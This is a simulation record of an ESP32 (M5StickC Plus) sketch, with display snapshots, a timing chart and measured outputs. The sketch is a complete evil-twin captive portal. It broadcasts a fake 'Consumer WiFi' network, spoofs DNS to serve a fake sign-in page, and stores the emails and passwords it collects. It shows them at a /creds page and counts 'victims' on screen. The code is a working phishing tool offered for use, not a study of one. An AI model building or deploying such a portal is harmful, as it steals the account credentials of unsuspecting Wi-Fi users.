
This sketch was run on a simulated ESP32-S3. Shown: 240×135 colour display, output pins drawn as LEDs (lit = HIGH), buzzer (waves = sounding). Dashed ring = blinking. The inputs (shaded band) are chosen by the test bench.

Above: at 1.3 s.
1.4 s: HTTP request GET /post received
At 2.3 s:

4.4 s: HTTP request GET /post received
At 7.0 s:

At 13.0 s:

Timing chart, 0 to 13.4 s (numbered marks = the images above; inputs shaded):


The sketch:

CaptPort.ino
```cpp
#include <M5StickCPlus.h>
#include <WiFi.h>
#include <DNSServer.h>
#include <WebServer.h>


// Based on https://community.dfrobot.com/makelog-313463.html
// modified font and text placement for StickC-Plus, further improvements added

// User configuration
#define SSID_NAME "Consumer WiFi"
#define SUBTITLE "Free WiFi service."
#define TITLE "Sign in:"
#define BODY "Create an account to get connected to the internet."
#define POST_TITLE "Validating..."
#define POST_BODY "Your account is being validated. Please, wait up to 5 minutes for device connection.</br>Thank you."
#define PASS_TITLE "Credentials"
#define CLEAR_TITLE "Cleared"

int capcount=0;
int previous=-1; // stupid hack but wtfe
int BUILTIN_LED = 10;

// Init System Settings
const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1); // Gateway

String Credentials = "";
unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer; WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;"); a.replace(">", "&gt;");
  a.substring(0, 200); return a;
}

String footer() {
  return
    "</div><div class=q><a>&#169; All rights reserved.</a></div>";
}

String header(String t) {
  String a = String(SSID_NAME);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
               "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
               "div { padding: 0.5em; }"
               "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
               "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555; }"
               "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
               "nav { background: #0066ff; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
               "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
               "textarea { width: 100%; }";
  String h = "<!DOCTYPE html><html>"
             "<head><title>" + a + " :: " + t + "</title>"
             "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
             "<style>" + CSS + "</style></head>"
             "<body><nav><b>" + a + "</b> " + SUBTITLE + "</nav><div><h1>" + t + "</h1></div><div>";
  return h;
}

String creds() {
  return header(PASS_TITLE) + "<ol>" + Credentials + "</ol><br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post>" +
         "<b>Email:</b> <center><input type=text autocomplete=email name=email></input></center>" +
         "<b>Password:</b> <center><input type=password name=password></input><input type=submit value=\"Sign in\"></form></center>" + footer();
}

String posted() {
  String email = input("email");
  String password = input("password");
  Credentials = "<li>Email: <b>" + email + "</b></br>Password: <b>" + password + "</b></li>" + Credentials;
  return header(POST_TITLE) + POST_BODY + footer();
}

String clear() {
  String email = "<p></p>";
  String password = "<p></p>";
  Credentials = "<p></p>";
  return header(CLEAR_TITLE) + "<div><p>The credentials list has been reset.</div></p><center><a style=\"color:blue\" href=/>Back to Index</a></center>" + footer();
}

void BLINK() { // The internal LED will blink 5 times when a password is received.
  int count = 0;
  while (count < 5) {
    digitalWrite(BUILTIN_LED, LOW);
    delay(500);
    digitalWrite(BUILTIN_LED, HIGH);
    delay(500);
    count = count + 1;
  }
}

void setup() {
  M5.begin();
  M5.Lcd.setRotation(3);
  M5.Lcd.fillScreen(BLACK);
  M5.Lcd.setSwapBytes(true);
  M5.Lcd.setTextSize(2);

  bootTime = lastActivity = millis();
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);
  dnsServer.start(DNS_PORT, "*", APIP); // DNS spoofing (Only HTTP)

  webServer.on("/post", []() {
    capcount=capcount+1;
    webServer.send(HTTP_CODE, "text/html", posted());
    M5.Beep.tone(4000);
    M5.Lcd.print("Victim Login");
    delay(50);
    M5.Beep.mute();
    BLINK();
    M5.Lcd.fillScreen(BLACK);
  });

  webServer.on("/creds", []() {
    webServer.send(HTTP_CODE, "text/html", creds());
  });
  webServer.on("/clear", []() {
    webServer.send(HTTP_CODE, "text/html", clear());
  });
  webServer.onNotFound([]() {
    lastActivity = millis();
    webServer.send(HTTP_CODE, "text/html", index());

  });
  webServer.begin();
  pinMode(BUILTIN_LED, OUTPUT);
  digitalWrite(BUILTIN_LED, HIGH);
}

void loop() {
  if ((millis() - lastTick) > TICK_TIMER) {
    lastTick = millis();
    if(capcount > previous){
      previous = capcount;

      M5.Lcd.fillScreen(BLACK);
      M5.Lcd.setSwapBytes(true);
      M5.Lcd.setTextSize(2);
      M5.Lcd.setTextColor(TFT_RED, TFT_BLACK);
      M5.Lcd.setCursor(0, 10);
      M5.Lcd.print("CAPTIVE PORTAL");
      M5.Lcd.setTextColor(TFT_GREEN, TFT_BLACK);
      M5.Lcd.setCursor(0, 35);
      M5.Lcd.print("WiFi IP: ");
      M5.Lcd.println(APIP);
      M5.Lcd.printf("SSID: %s\n", SSID_NAME);
      M5.Lcd.printf("Victim Count: %d\n", capcount);
    }
  }
  dnsServer.processNextRequest(); webServer.handleClient();
}
```

Measured:
- after the input at 1.4 s, GPIO 10 (BUILTIN_LED): alternates HIGH for 0.50 s and LOW for 0.50 s, starting after 0.05 s; tone on GPIO 25: silent → 4000 Hz at once, → silent 0.05 s later; the display: changes at once (image 1)
- after the input at 4.4 s, tone on GPIO 25: silent → 4000 Hz after 2.1 s, → silent 0.05 s later
- what the display in image 2 shows lasts 5.0 s, from 6.6 s to 11.6 s
